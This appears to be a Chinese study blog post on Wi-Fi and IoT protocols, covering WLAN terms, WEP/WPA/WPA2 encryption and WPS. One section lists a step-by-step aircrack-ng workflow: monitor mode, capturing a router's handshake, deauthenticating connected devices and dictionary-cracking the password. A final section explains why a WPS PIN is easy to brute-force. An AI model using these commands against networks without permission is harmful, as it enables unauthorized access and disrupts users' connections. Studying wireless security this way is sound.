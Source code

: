 ```yaml
---
title: wifi协议
date: 2022-05-05 19:52:40
tags:
    - 协议
---
```


<!--more-->

# 物联网通信协议

通信协议分类：接入类协议 通信类协议

**接入类协议**：一般负责子网内设备间的组网及通信，市场上常见的有zigbee、蓝牙以及wifi协议等。

**通信类协议**：主要是运行在传统互联网TCP/IP协议之上的设备远程通讯协议，负责设备通过互联网进行数据交换及通信，例如GPRS/3G/4G等。

### wlan

​	之前上过学校的选修课路由交换技术，感觉与其中的vlan很相似。VLAN 的实现是在有线的基础上的，而 WLAN 是一种[无线局域网](https://so.csdn.net/so/search?q=无线局域网&spm=1001.2101.3001.7020)技术。

![image-20220505200638400](https://s2.loli.net/2022/05/06/iWqupLG1frz4VN7.png)

**wifi就是wlan的其中一种技术**。

# wifi协议

https://wenku.baidu.com/view/1df8be69cb50ad02de80d4d8d15abe23482f032d.html

Wifi采⽤的协议属于IEEE 802协议集。Wifi以802.11做为其⽹络层以下的协议。

### 相关术语

1. LAN：即局域⽹，是路由和主机组成的内部局域⽹，⼀般为有线⽹络。
2. WAN：即⼴域⽹，是外部⼀个更⼤的局域⽹。
3. WLAN（Wireless LAN，即⽆线局域⽹）：前⾯我们说过LAN是局域⽹，其实⼤多数指的是有线⽹络中的局域⽹，⽆线⽹络中的局域⽹，⼀般⽤WLAN。
4. AP（Access point的简称，即访问点，接⼊点）：是⼀个⽆线⽹络中的特殊节点，通过这个节点，⽆线⽹络中的其它类型节点可以和⽆线⽹络外部以及内部进⾏通信。这⾥，AP和⽆线路由都在⼀台设备上（即Cisco E3000）。
5. Station（⼯作站）：表⽰连接到⽆线⽹络中的设备，这些设备通过AP，可以和内部其它设备或者⽆线⽹络外部通信。
6. Assosiate：连接。如果⼀个Station想要加⼊到⽆线⽹络中，需要和这个⽆线⽹络中的AP关联（即Assosiate）。
7. SSID：⽤来标识⼀个⽆线⽹络，后⾯会详细介绍，我们这⾥只需了解，每个⽆线⽹络都有它⾃⼰的SSID。
8. BSSID：⽤来标识⼀个BSS，其格式和MAC地址⼀样，是48位的地址格式。⼀般来说，它就是所处的⽆线接⼊点的MAC地址。某种程度来说，它的作⽤和SSID类似，但是SSID是⽹络的名字，是给⼈看的，BSSID是给机器看的，BSSID类似MAC地址。
9.   BSS（Basic Service Set）：由⼀组相互通信的⼯作站组成，是802.11⽆线⽹络的基本组件。主要有两种类型的IBSS和基础结构型⽹络。IBSS⼜叫ADHOC，组⽹是临时的，通信⽅式为Station<->Station，这⾥不关注这种组⽹⽅式；我们关注的基础结构形⽹络，其通信⽅式是Station<->AP<->Station，也就是所有⽆线⽹络中的设备要想通信，都得经过AP。在⽆线⽹络的基础形⽹络中，最重要的两类设备：AP和Station。

无线网络的安全
--------------------------------------------------------
最早的IEEE 802.11采用的是**WEP加密方式**，WEP（Wired Equivalent Privacy）是采用名为RC4的RSA加密技术，由于它的密钥固定,初始向量仅为24位,算法强度并不算高；直到WIFI技术的产生，IEEE 802.11开始转变**使用WPA技术加密，采⽤新的TKIP算法**，但是这个时候更好的CCMP还没完成，所以先在WPA上⽤TKIP技术；后续发展**WPA2是WPA的第2个版本，采⽤CCMP加密协定**（在有些路由器等设备上设定加密协定或者加密算法的时候，可能会⽤类似AES之类的字眼替代CCMP）。所以WPA2+AES是安全性最强的。

## WPA四次握手

WPA的加密方式

https://blog.csdn.net/yigezzchengxuyuan/article/details/108062519?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1.pc_relevant_default&utm_relevant_index=2

## air无线攻击套件命令（WIFI暴力破解）

1. 查看无线网卡名    iwconfig
2. 关掉占用网卡进程     airmon-ng check kill
3. 设置网卡为监听模式     airmon-ng start INTERFACE
4. 扫描附近wifi     airodump-ng INTERFACE
5. 监听制定路由器流量并保存到本地       airodump-ng -c CHANNEL --bssid AP_MAC -w FILENAME INTERFACE
6. 攻击路由器使连接设备断线重新连接  airplay-ng -0 50 -a AP_MAC [-c STA_AP]  INTERFACE
7. 使用字典对抓取到的握手包暴力破解        aircrack-ng -w PASSWORD.txt  FILENAME.cap



## WPS安全问题

WPS（WIFI Protected Setup）是WIFI保护设置的英文缩写，用于简化无线局域网安装及安全性能得配置工作。在WPS认证中PIN码是网络设备间获得接入的唯一要求，不需要其他身份识别方式，这就让暴力破解变得可行。

WPS PIN码的第8位数是一个校验和，因此暴力破解只需算出前7位，而在实施PIN的身份识别时，接入点实际上要找出这个PIN的前4位和后3位是否分别正确。

```
10^8——>10^7——>10^4+10^3
```

破解难度越来越容易。
